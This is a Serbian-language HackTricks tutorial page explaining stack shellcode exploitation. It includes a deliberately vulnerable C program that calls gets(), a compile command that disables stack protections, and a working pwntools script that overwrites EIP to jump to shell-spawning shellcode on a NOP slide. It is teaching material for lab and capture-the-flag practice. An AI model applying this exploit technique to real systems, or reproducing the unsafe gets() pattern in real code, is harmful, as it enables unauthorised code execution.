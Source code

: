 # Stack Shellcode

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodicu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Osnovne informacije

**Stack shellcode** je tehnika korišćena u binarnom eksploatisanju gde napadač piše shellcode u stack ranjivog programa, a zatim modifikuje **Instruction Pointer (IP)** ili **Extended Instruction Pointer (EIP)** da pokazuje na lokaciju ovog shellcode-a, uzrokujući njegovo izvršavanje. Ovo je klasična metoda korišćena za sticanje neovlašćenog pristupa ili izvršavanje proizvoljnih komandi na ciljnom sistemu. Evo detaljnog objašnjenja procesa, uključujući jednostavan C primer i kako biste mogli napisati odgovarajući eksploit koristeći Python sa **pwntools**.

### C Primer: Ranjiv program

Započnimo sa jednostavnim primerom ranjivog C programa:

```c
#include <stdio.h>
#include <string.h>

void vulnerable_function() {
char buffer[64];
gets(buffer); // Unsafe function that does not check for buffer overflow
}

int main() {
vulnerable_function();
printf("Returned safely\n");
return 0;
}
```

Ovaj program je ranjiv na preplavljivanje bafera zbog korišćenja funkcije `gets()`.

### Kompilacija

Da biste kompajlirali ovaj program isključujući različite zaštite (kako biste simulirali ranjivo okruženje), možete koristiti sledeću komandu:

```sh
gcc -m32 -fno-stack-protector -z execstack -no-pie -o vulnerable vulnerable.c
```

* `-fno-stack-protector`: Onemogućava zaštitu steka.
* `-z execstack`: Čini stek izvršivim, što je neophodno za izvršavanje shell koda smeštenog na steku.
* `-no-pie`: Onemogućava izvršavanje poziciono nezavisnog izvršnog fajla, čime se olakšava predviđanje memorijske adrese gde će se nalaziti naš shell kod.
* `-m32`: Kompajlira program kao 32-bitni izvršni fajl, često korišćeno radi jednostavnosti u razvoju eksploatacije.

### Python Eksploatacija korišćenjem Pwntools

Evo kako biste mogli napisati eksploataciju u Pythonu koristeći **pwntools** za izvođenje napada **ret2shellcode**:

```python
from pwn import *

# Set up the process and context
binary_path = './vulnerable'
p = process(binary_path)
context.binary = binary_path
context.arch = 'i386' # Specify the architecture

# Generate the shellcode
shellcode = asm(shellcraft.sh()) # Using pwntools to generate shellcode for opening a shell

# Find the offset to EIP
offset = cyclic_find(0x6161616c) # Assuming 0x6161616c is the value found in EIP after a crash

# Prepare the payload
# The NOP slide helps to ensure that the execution flow hits the shellcode.
nop_slide = asm('nop') * (offset - len(shellcode))
payload = nop_slide + shellcode
payload += b'A' * (offset - len(payload))  # Adjust the payload size to exactly fill the buffer and overwrite EIP
payload += p32(0xffffcfb4) # Supossing 0xffffcfb4 will be inside NOP slide

# Send the payload
p.sendline(payload)
p.interactive()
```

Ovaj skript konstruiše payload koji se sastoji od **NOP slide-a**, **shellcode-a**, i zatim prepisuje **EIP** sa adresom koja pokazuje na NOP slide, osiguravajući izvršenje shellcode-a.

**NOP slide** (`asm('nop')`) se koristi kako bi se povećala šansa da izvršenje "klizi" ka našem shellcode-u bez obzira na tačnu adresu. Prilagodite argument `p32()` na početnu adresu vašeg bafera plus offset kako biste dospele do NOP slide-a.

## Zaštite

* [**ASLR**](../common-binary-protections-and-bypasses/aslr/) **treba da bude onemogućen** kako bi adresa bila pouzdana tokom izvršavanja, inače adresa gde će funkcija biti smeštena neće uvek biti ista i trebalo bi da imate neki "leak" kako biste saznali gde je funkcija za pobedu učitana.
* [**Stack Canaries**](../common-binary-protections-and-bypasses/stack-canaries/) takođe treba da budu onemogućeni ili kompromitovana povratna adresa EIP-a neće biti praćena.
* [**NX**](../common-binary-protections-and-bypasses/no-exec-nx.md) zaštita **stack-a** bi sprečila izvršenje shellcode-a unutar stack-a jer ta regija neće biti izvršiva.

## Ostali Primeri & Reference

* [https://ir0nstone.gitbook.io/notes/types/stack/shellcode](https://ir0nstone.gitbook.io/notes/types/stack/shellcode)
* [https://guyinatuxedo.github.io/06-bof\_shellcode/csaw17\_pilot/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/csaw17\_pilot/index.html)
* 64-bit, ASLR sa "leak"-om adrese stack-a, upisivanje shellcode-a i skakanje na njega
* [https://guyinatuxedo.github.io/06-bof\_shellcode/tamu19\_pwn3/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/tamu19\_pwn3/index.html)
* 32-bit, ASLR sa "leak"-om adrese stack-a, upisivanje shellcode-a i skakanje na njega
* [https://guyinatuxedo.github.io/06-bof\_shellcode/tu18\_shellaeasy/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/tu18\_shellaeasy/index.html)
* 32-bit, ASLR sa "leak"-om adrese stack-a, upoređivanje kako bi se sprečilo pozivanje exit(), prepisivanje promenljive sa vrednošću, upisivanje shellcode-a i skakanje na njega
